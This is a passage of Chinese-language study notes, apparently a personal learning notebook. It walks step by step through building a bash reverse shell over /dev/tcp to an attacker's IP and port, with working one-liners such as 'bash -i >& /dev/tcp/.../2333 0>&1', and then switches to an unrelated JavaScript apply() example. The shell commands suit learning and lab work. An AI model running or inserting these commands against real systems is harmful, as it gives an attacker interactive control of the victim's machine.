 - 这样把受害者机器上的标准输出绑定到了我的服务器上
- 但是还没有完全控制
- 还需要一条这样的命令

```shell
bash -i < /dev/tcp/192.168.146.129/2333
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672713376216-3936e2ad-ee01-43e4-8760-8cd7858ef063.png#averageHue=%23ececec&clientId=u78f733d3-4a3e-4&from=paste&height=278&id=u212488eb&originHeight=612&originWidth=1437&originalType=binary&ratio=1&rotation=0&showTitle=false&size=120988&status=done&style=none&taskId=u8bbce253-bec0-4f6e-b071-4a297f537f3&title=&width=653.1818040244839)

- 意思是把输入绑定到我的服务器上，让我可以控制输入
- 将上面两条指令结合起来，变成

```shell
bash -i > /dev/tcp/192.168.146.129/2333 0>&1
```

- 先把输出指向服务器，再把标准输入指向标准输出

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672713473888-5b063ede-7acf-4f3e-aaf5-8f8bc46eac74.png#averageHue=%23efefef&clientId=u78f733d3-4a3e-4&from=paste&height=303&id=u860d4aa2&originHeight=667&originWidth=1515&originalType=binary&ratio=1&rotation=0&showTitle=false&size=129167&status=done&style=none&taskId=u943a128b-1c72-4ce4-bac3-79b4ce50e74&title=&width=688.6363487105727)

- **输入0是由/dev/tcp/192.168.146.129/2333 输入的，也就是攻击机的输入，命令执行的结果1，会输出到/dev/tcp/192.168.156.129/2333上，这就形成了一个回路，实现了我们远程交互式shell 的功能**
  :::danger
  这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令
  :::
  解决方法是将标准错误输出也重定向到服务器上

```shell
bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
```

当然我们也可以执行与之完全等价的指令

```shell
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
```

## js apply函数

[JavaScript 函数 Apply](https://www.w3school.com.cn/js/js_function_apply.asp)

### 方法重用

通过 apply() 方法，您能够编写用于不同对象的方法。

## JavaScript apply() 方法

apply() 方法与 call() 方法非常相似：<br />在本例中，person 的 fullName 方法被_**应用**_到 person1：

### 实例

```javascript
var person = {
    fullName: function() {
        console.log(this.firstName + " " + this.lastName);
    }
}
var person1 = {
    firstName: "Bill",
    lastName: "Gates",
}
person.fullName.apply(person1);  // 将返回 "Bill Gates"
```
